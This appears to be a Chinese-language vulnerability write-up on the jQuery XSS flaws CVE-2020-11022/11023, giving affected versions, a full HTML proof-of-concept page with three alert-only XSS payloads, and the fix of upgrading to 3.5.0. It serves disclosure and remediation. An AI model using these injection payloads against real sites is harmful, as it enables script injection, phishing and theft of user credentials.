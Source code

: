 # jQuery低版本存在XSS漏洞

### 漏洞描述

​	jQuery在Web中广泛应用，当jQuery的版本大于或等于1.2且小于3.5.0的时候，即使执行了消毒（sanitize）处理，也仍会执行将来自不受信任来源的HTML传递给jQuery的DOM操作方法（即html()、.append()等），从而导致xss漏洞。

​	攻击者可以利用该漏洞执行恶意HTML/JS代码、构造蠕虫、篡改页面实施钓鱼攻击、以及诱导用户再次登录，然后获取其登录凭证等。

### 影响版本

大于等于1.2 ,小于 3.5.0

### 漏洞复现

POC验证

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>jQuery XSS Examples (CVE-2020-11022/CVE-2020-11023)</title>
    <!-- 测试JQuery -->
   <script src="https://www.xxx.cn/xxxx/xxxx/default/jquery-1.5.2.min.js"></script>
    <!-- <script src="./jquery.min.js"></script> -->
</head>
<body>
<script>
function test(n,jq){
    sanitizedHTML = document.getElementById('poc'+n).innerHTML;
    if(jq){
        $('#div').html(sanitizedHTML);
    }else{
        div.innerHTML=sanitizedHTML;
    }
}
</script>
<h1>jQuery XSS Examples (CVE-2020-11022/CVE-2020-11023)</h1>
<p>PoCs of XSS bugs fixed in <a href="//blog.jquery.com/2020/04/10/jquery-3-5-0-released/">jQuery 3.5.0</a>. You can find the details in my blog post: <a href="//mksben.l0.cm/2020/05/jquery3.5.0-xss.html">English</a> / <a href="//masatokinugawa.l0.cm/2020/05/jquery3.5.0-xss.html">日本語</a></p>

<h2>PoC 1</h2>
<button onclick="test(1)">Assign to innerHTML</button> <button onclick="test(1,true)">Append via .html()</button>
<xmp id="poc1">
<style><style /><img src=x onerror=alert('XSS')>
</xmp>

<h2>PoC 2 (Only jQuery 3.x affected)</h2>
<button onclick="test(2)">Assign to innerHTML</button> <button onclick="test(2,true)">Append via .html()</button>
<xmp id="poc2">
<img alt="<x" title="/><img src=x onerror=alert("1st")>">
</xmp>

<h2>PoC 3</h2>
<button onclick="test(3)">Assign to innerHTML</button> <button onclick="test(3,true)">Append via .html()</button>
<xmp id="poc3">
<option><style></option></select><img src=x onerror=alert("1st")></style>
</xmp>

<div id="div"></div>
</body>
</html>

```

![image-20240117204120707](imgs/image-20240117204120707.png)

验证成功

![img](imgs/clip_image002.jpg)

### 修复建议

更新jQuery到3.5.0或更高版本

```js
https://code.jquery.com/jquery-3.5.0.js
```